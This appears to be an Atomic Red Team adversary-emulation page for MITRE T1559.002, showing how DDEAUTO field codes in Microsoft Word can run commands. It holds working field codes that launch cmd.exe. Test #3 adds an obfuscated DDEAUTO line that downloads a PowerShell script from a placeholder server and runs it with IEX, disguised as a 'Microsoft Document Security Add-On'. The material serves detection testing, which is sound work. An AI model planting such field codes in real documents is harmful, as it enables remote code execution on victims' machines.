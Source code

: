 ```yaml
---
tags: [T1559_002, atomic_test]
filename: "[[T1559.002 - Inter-Process Communication- Dynamic Data Exchange]]"
---
```

# T1559.002 - Inter-Process Communication: Dynamic Data Exchange

## Atomic Test #1 - Execute Commands
Executes commands via DDE using Microsfot Word

**Supported Platforms:** Windows


**auto_generated_guid:** f592ba2a-e9e8-4d62-a459-ef63abd819fd





#### Run it with these steps! 
Open Microsoft Word

Insert tab -> Quick Parts -> Field

Choose = (Formula) and click ok.

After that, you should see a Field inserted in the document with an error "!Unexpected End of Formula", right-click the Field, and choose Toggle Field Codes.

The Field Code should now be displayed, change it to Contain the following:

{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }







<br/>
<br/>

## Atomic Test #2 - Execute PowerShell script via Word DDE
When the word document opens it will prompt the user to click ok on a dialogue box, then attempt to run PowerShell with DDEAUTO to download and execute a powershell script

**Supported Platforms:** Windows


**auto_generated_guid:** 47c21fb6-085e-4b0d-b4d2-26d72c3830b3






#### Attack Commands: Run with `command_prompt`! 


```cmd
start "$PathToAtomicsFolder\T1559.002\bin\DDE_Document.docx"
```






<br/>
<br/>

## Atomic Test #3 - DDEAUTO
TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows


**auto_generated_guid:** cf91174c-4e74-414e-bec0-8d60a104d181





#### Run it with these steps! 
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"







<br/>
